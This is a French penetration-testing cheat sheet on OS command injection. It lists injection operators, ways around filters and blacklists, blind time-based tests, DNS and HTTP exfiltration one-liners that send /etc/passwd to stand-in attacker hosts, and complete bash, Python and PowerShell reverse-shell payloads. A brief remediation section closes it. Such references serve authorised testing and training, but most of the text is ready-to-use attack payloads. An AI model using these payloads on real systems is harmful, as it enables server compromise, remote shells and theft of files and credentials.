

## 1. Identification de la vulnérabilité (Testing methodology)

Avant toute exploitation, il est crucial de confirmer l'existence de l'injection par des tests non destructifs.

1. **Test de latence (Time-based)** : Injecter des commandes de temporisation pour vérifier si le serveur attend avant de répondre.
   ```bash
   # Linux
   ; sleep 5
   # Windows
   & timeout 5
   ```
2. **Test de sortie (Out-of-band)** : Utiliser des outils comme **Burp Collaborator** ou **Interactsh** pour forcer une requête DNS/HTTP.
   ```bash
   # Linux
   ; nslookup <votre-id>.oast.pro
   # Windows
   & nslookup <votre-id>.oast.pro
   ```
3. **Test de redirection** : Vérifier si la sortie peut être écrite dans un fichier accessible via le serveur web.
   ```bash
   ; echo "test" > /var/www/html/test.txt
   ```

> [!tip] 
> Toujours tester un caractère à la fois pour identifier les filtres.

## 2. Injection Operators

Les opérateurs permettent de chaîner des commandes. Le comportement varie selon l'interpréteur.

| Nom | Caractère | URL Encodé | Effet |
| :--- | :--- | :--- | :--- |
| Point-virgule | `;` | `%3b` | Termine une commande, exécute la suivante |
| Nouvelle ligne | `\n` | `%0a` | Simule un retour à la ligne |
| Background | `&` | `%26` | Lance en tâche de fond |
| Pipe | `\|` | `%7c` | Redirige la sortie vers la commande suivante |
| AND logique | `&&` | `%26%26` | Exécute si la première réussit |
| OR logique | `\|\|` | `%7c%7c` | Exécute si la première échoue |
| Subshell | `` `cmd` `` | `%60` | Exécute et retourne la sortie |
| Subshell | `$(cmd)` | `%24%28cmd%29` | Préféré pour les commandes imbriquées |

> [!info] 
> Les opérateurs de redirection (`>`, `2>&1`) sont cruciaux pour le debug en aveugle.

## 3. Linux Bypass

### Bypass des espaces
| Technique | Commande Exemple |
| :--- | :--- |
| Tabulation | `cat%09/etc/passwd` |
| **IFS** | `cat${IFS}/etc/passwd` |
| Brace Expansion | `{ls,-la}` |
| Variable | `${PATH:0:1}` |

> [!warning] 
> L'encodage **Base64** nécessite une attention particulière sur les espaces.

### Bypass des slashes et points-virgules
| Technique | Commande Exemple |
| :--- | :--- |
| Slash via **PATH** | `cat${PATH:0:1}etc${PATH:0:1}passwd` |
| Point-virgule via **LS_COLORS** | `${LS_COLORS:10:1}` |

## 4. Bypass des commandes blacklistées

### Linux
| Technique | Commande |
| :--- | :--- |
| Apostrophes | `w'h'o'a'm'i` |
| Antislash | `w\ho\am\i` |
| Inversion | `$(rev<<<'imaohw')` |
| **Base64** | `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dk)` |

> [!note] 
> La casse est sensible sous Linux mais pas sous Windows.

### Windows (CMD/PowerShell)
| Technique | Commande |
| :--- | :--- |
| Caret (CMD) | `who^ami` |
| Inversion (PS) | `iex "$('imaohw'[-1..-20] -join '')"` |
| **Base64** (Unicode) | `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"` |

## 5. Blind Command Injection (Time-based & Out-of-band)

Lorsque la sortie n'est pas affichée, on utilise des techniques de déduction.

- **Time-based** : Si le serveur répond après un délai, la commande a été exécutée.
  ```bash
  ; if [ $(whoami|cut -c1) == 'r' ]; then sleep 5; fi
  ```
- **Out-of-band (OOB)** : Exfiltration via une requête réseau vers un serveur contrôlé.
  ```bash
  ; curl http://<IP_ATTAQUANT>/$(whoami | base64)
  ```

## 6. Exfiltration de données (DNS/HTTP exfiltration)

Pour exfiltrer des fichiers sensibles sans accès direct :

1. **DNS Exfiltration** : Utile si HTTP est bloqué mais que les requêtes DNS sortantes sont autorisées.
   ```bash
   # Exfiltration de /etc/passwd via sous-domaine
   cat /etc/passwd | xxd -p | tr -d '\n' | xargs -I {} host {}.attacker.com
   ```
2. **HTTP Exfiltration** : Envoi du contenu via une requête POST ou GET.
   ```bash
   # Envoi via curl
   curl -X POST -d @/etc/passwd http://<IP_ATTAQUANT>/exfil
   ```

## 7. Reverse Shell payloads spécifiques

Une fois l'injection confirmée, obtenir un shell interactif est la priorité.

- **Bash TCP** : `bash -i >& /dev/tcp/<IP>/<PORT> 0>&1`
- **Python** : `python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'`
- **PowerShell** : `$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()`

Voir aussi : [Reverse Shell Cheat Sheet]

## 8. Techniques avancées

### Wildcards et Globbing
Utilisation de l'astérisque pour éviter les noms de fichiers explicites :
```bash
cat /etc/p*
ls /ho??
```

### Exécution via interpréteurs alternatifs
Si **bash** est restreint, tenter :
```bash
python -c 'import os; os.system("id")'
perl -e 'system("whoami")'
```

### Outils d'automatisation
- **Bashfuscator** : Générateur d'obfuscation pour **Bash**.
- **Invoke-DOSfuscation** : Outil **PowerShell** pour générer du code obfusqué.
- **netexec** : Utile pour tester les injections dans des environnements **NTLMv2**.
- **hashcat** : Utilisé pour casser les hashes récupérés via **TGT** ou autres vecteurs.
- **Certipy** : Utile si l'injection permet de manipuler des certificats avec **EKU** spécifiques.

## 9. Impact et remédiation

### Impact
L'injection de commandes permet une exécution de code arbitraire avec les privilèges du service web, menant potentiellement à :
- Compromission totale du serveur.
- Mouvement latéral dans le réseau interne.
- Exfiltration de données sensibles.

> [!danger] 
> L'injection de commandes peut mener à un **Pass-the-Hash** ou une élévation de privilèges si le contexte est mal configuré.

### Remédiation
1. **Éviter les fonctions dangereuses** : Ne jamais utiliser `system()`, `exec()`, `shell_exec()` avec des entrées utilisateur.
2. **Utiliser des APIs natives** : Préférer les fonctions intégrées au langage (ex: `os.path.join` en Python au lieu de concaténer des chaînes).
3. **Validation stricte** : Utiliser des listes blanches (whitelist) pour les entrées.
4. **Privilèges minimaux** : Faire tourner le service web avec un utilisateur non privilégié et sans accès shell.

Voir aussi : [Web Application Enumeration], [WAF Evasion Techniques]
```